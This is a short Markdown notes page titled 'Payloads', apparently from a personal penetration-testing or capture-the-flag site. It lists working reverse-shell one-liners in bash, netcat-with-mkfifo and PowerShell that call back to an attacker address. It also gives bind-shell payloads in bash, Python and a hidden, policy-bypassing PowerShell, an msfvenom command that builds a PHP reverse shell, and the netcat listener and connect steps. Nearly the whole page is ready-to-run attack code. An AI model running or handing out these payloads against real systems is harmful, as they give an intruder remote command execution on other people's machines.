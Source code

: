 ```yaml
---
layout: default
title: Payloads
permalink: /payloads/
---
```


# Reverse Shell

First set up a listener on your attacking host:

```
nc -lvnp 1234
```

Firt to get your ip, you can use the `ip` utility:
```
ip addr
```
To create a reverse shell payload I can recommend this [online reverse shell generator](https://www.revshells.com/), but here are some example:

## Bash Payloads

```
echo "bash -c 'bash -i >& /dev/tcp/$attacker_ip/$attacker_port 0>&1'" > rev.sh
```
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $attacker_ip $attacker_port >/tmp/f" > rev.sh
```

## PowerShell Payload

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

# Bind Shell

Unlike a Reverse Shell that connects to us, we will have to connect to it on the targets' listening port.

## Bash Payload

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

## Python Payload
```
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

## PowerShell Payload
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

# Msfvenom

### PHP
```
 msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```
Similarly, we can generate reverse shell scripts for several languages. We can use many reverse shell payloads with the -p flag and specify the output language with the -f flag.

# Establish connection

```
nc 10.10.10.1 1234
```
